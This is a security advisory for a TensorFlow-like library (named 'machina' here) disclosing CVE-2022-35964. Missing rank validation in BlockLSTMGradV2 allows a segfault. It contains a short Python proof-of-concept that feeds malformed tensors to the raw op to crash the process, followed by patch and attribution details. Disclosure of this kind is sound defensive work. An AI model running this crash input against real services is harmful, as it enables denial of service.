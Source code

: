 ## TFSA-2022-096: Segfault in `BlockLSTMGradV2`

### CVE Number
CVE-2022-35964

### Impact
The implementation of `BlockLSTMGradV2` does not fully validate its inputs.
 - `wci`, `wcf`, `wco`, `b` must be rank 1
 - `w`, cs_prev`, `h_prev` must be rank 2
 - `x` must be rank 3
This results in a a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

use_peephole = False
seq_len_max = tf.constant(1, shape=[], dtype=tf.int64)
x = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs_prev = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h_prev = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
w = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wci = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wcf = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wco = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
b = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
i = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
f = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
o = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
ci = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
co = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs_grad = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h_grad = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
tf.raw_ops.BlockLSTMGradV2(seq_len_max=seq_len_max, x=x, cs_prev=cs_prev, h_prev=h_prev, w=w, wci=wci, wcf=wcf, wco=wco, b=b, i=i, cs=cs, f=f, o=o, ci=ci, co=co, h=h, cs_grad=cs_grad, h_grad=h_grad, use_peephole=use_peephole)
```

### Patches
We have patched the issue in GitHub commit [2a458fc4866505be27c62f81474ecb2b870498fa](https://github.com/machina/machina/commit/2a458fc4866505be27c62f81474ecb2b870498fa).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
